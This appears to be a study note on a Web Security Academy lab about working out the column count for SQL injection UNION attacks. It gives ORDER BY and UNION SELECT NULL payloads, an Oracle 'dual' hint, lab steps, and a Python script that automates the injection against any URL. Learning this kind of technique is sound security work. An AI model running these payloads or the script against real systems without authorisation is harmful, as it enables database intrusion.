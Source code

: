 # Determining the number of columns required in an UNION attack
---
When performing an UNION attack, there are `two` effective methods to determine how many columns are being returned from the original query:

### 1. ORDER BY
The first method involves injecting a series of `ORDER BY` clauses and incrementing the specified column index _until an error occurs_.
For example:
```python
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
etc.
```

- The series of payloads modifies the original query to order the results by different columns in the result set.
- The column in an `ORDER BY` clause can be specified by its index, so you don't need to know the names of any columns.
- When the specified column index exceeds the number of actual columns in the result set, the database returns an error, such as:
```sql
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

### 2. UNION SELECT
The second method involves submitting a series of `UNION SELECT` payloads specifying a different number of `null` values:
```python
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 
etc.
```

If the number of `nulls` does not match the number of columns, the database returns an error, such as:
```sql
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```
- The application might actually return this error message, or might just return a generic error or no results.
- Worst case, the response might be _indistinguishable_ from that which is caused by an incorrect number of `null`, making this method of determining the column count ineffective.

## Oracle
---
> [!hint]
> On **Oracle** databases, every `SELECT` statement must specify a table to select `FROM`. 
> If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
> 
> There is a built-in on **Oracle** called `dual` which you can use for this purpose.
> For example: `UNION SELECT 'abc',NULL FROM dual`

# Lab: SQL injection UNION attack, determining the number of columns returned by the query
---
1. go to the url `https://0a2200750312d97b802a6d4100a20043.web-security-academy.net/filter?category=Gifts`
2. find the extra NULL columns.
3. using `' ORDER BY 4--` and it's throw an error.
4. that's means `columns 3` what are we looking for. (_ORDER BY only throws an error when something false_) (_4-1=3_)

1. for the `UNION SELECT` its kind of vice versa from the above.
2. using the payload `' UNION SELECT NULL,NULL--`, so on. It's not going throws an error
3. the payload `' UNION SELECT NULL,NULL,NULL--` is we're looking for `column 3`.
4. _UNION SELECT will not throws an error if the conditions is true_

```python
#!/usr/bin/env python3
import requests
import sys

def exploit(url, payload):
    for i in range(1,int(payload)):
        sqli = f"'+ORDER+BY+{i}--"
        req = requests.get(url + sqli)
        if "Internal Server Error" in req.text:
            return i-1
        i = i+1
    return False

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        print("[*] Usage: {} <url> <payload>".format(sys.argv[0]))
        print('[*] Example: {} http://example.com 10'.format(sys.argv[0]))
        sys.exit(1)

    print("[*] Figuring out number of columns...")
    num_col = exploit(url, payload)
    if num_col:
        print("[*] The number of columns is {}".format(num_col))
    else:
        print("[*] SQLi UNION not successful")
```